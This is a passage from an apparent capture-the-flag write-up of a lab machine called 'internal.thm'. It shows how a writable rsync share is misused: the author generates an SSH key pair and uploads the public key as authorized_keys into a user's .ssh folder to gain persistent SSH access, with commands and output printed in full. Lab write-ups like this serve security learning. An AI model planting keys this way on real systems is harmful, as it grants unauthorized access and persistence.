 I looked around the folders a little but nothing stood out apart from the .ssh one, but inside it's empty:

```text
┌──(root💀kali)-[~/thm/internal]
└─# rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/
Password: 
drwxrwxr-x          4,096 2021/02/06 11:43:14 .
```

## SSH

However, rsync is a two way tool. I can push files to the server as well as pull them to Kali. So next step is to create a new SSH key:

```text
┌──(root💀kali)-[~/thm/internal]
└─# ssh-keygen               
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/thm/internal/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/thm/internal/id_rsa
Your public key has been saved in /root/thm/internal/id_rsa.pub
The key fingerprint is:
SHA256:cI/9dSTfuwtDuaZl40evsmEpsIsd1P1bG+Bvq+ut1Yo root@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|      . .     . .|
|       o = .  .+.|
|        S + .+. +|
|       . o .o+ooo|
|        o . =Xo++|
|       o o oBoB*=|
|      . o  .EOXOo|
+----[SHA256]-----+
```

Next we use rsync to put it in that .ssh folder:

```text
┌──(root💀kali)-[~/thm/internal]
└─# rsync id_rsa.pub rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/authorized_keys
Password:

┌──(root💀kali)-[~/thm/internal]
└─# rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/                              
Password: 
drwxrwxr-x          4,096 2021/05/26 21:04:04 .
-rw-r--r--            563 2021/05/26 21:04:04 authorized_keys
```
